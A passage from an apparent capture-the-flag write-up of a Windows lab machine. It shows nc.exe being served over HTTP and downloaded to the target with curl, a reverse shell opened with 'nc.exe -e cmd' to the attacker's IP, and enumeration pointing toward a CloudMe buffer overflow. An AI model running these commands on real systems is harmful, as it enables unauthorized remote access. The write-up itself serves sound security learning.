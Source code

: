 I serve nc.exe in a web server through python
```bash
python3 -m http.server 80 
```

on the target machine I use curl to download the executable and run it 
```bash
C:\xampp\htdocs\gym\upload> curl http://10.10.14.13/nc.exe -O 


C:\xampp\htdocs\gym\upload> dir
 Directory of C:\xampp\htdocs\gym\upload

20/08/2024  20:01    <DIR>          .
20/08/2024  20:01    <DIR>          ..
20/08/2024  19:56                53 kamehameha.php
20/08/2024  20:01            28,160 nc.exe
               2 File(s)         28,213 bytes
               2 Dir(s)   7,236,259,840 bytes free

C:\xampp\htdocs\gym\upload> nc.exe -e cmd 10.10.14.13 9001 
```

and I get a shell as shaun
```bash
$ rlwrap -cAr nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.13] from (UNKNOWN) [10.10.10.198] 49686
Microsoft Windows [Version 10.0.17134.1610]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\gym\upload>whoami
whoami
buff\shaun
```


### CloudMe buffer overflow

Enumerating the home directory of "shaun" I find a CloudMe_1112.exe file 

```bash
C:\Users\shaun>tree /a /f
tree /a /f
...<snip>...
+---Downloads
|       CloudMe_1112.exe
```

I also find a process listening on port 8888, by  using a oneliner I can identify that is indeed CloudMe running at different intervals of time.

```bash
C:\Users\shaun>netstat -noa
TCP    127.0.0.1:8888         0.0.0.0:0              LISTENING       1284

C:\Users\shaun> for /f "tokens=5" %a in ('netstat -ano ^| findstr :8888') do wmic process where processid=%a get Caption,CommandLine

C:\Users\shaun>wmic process where processid=1540 get Caption,CommandLine 
Caption      CommandLine  
CloudMe.exe  
```
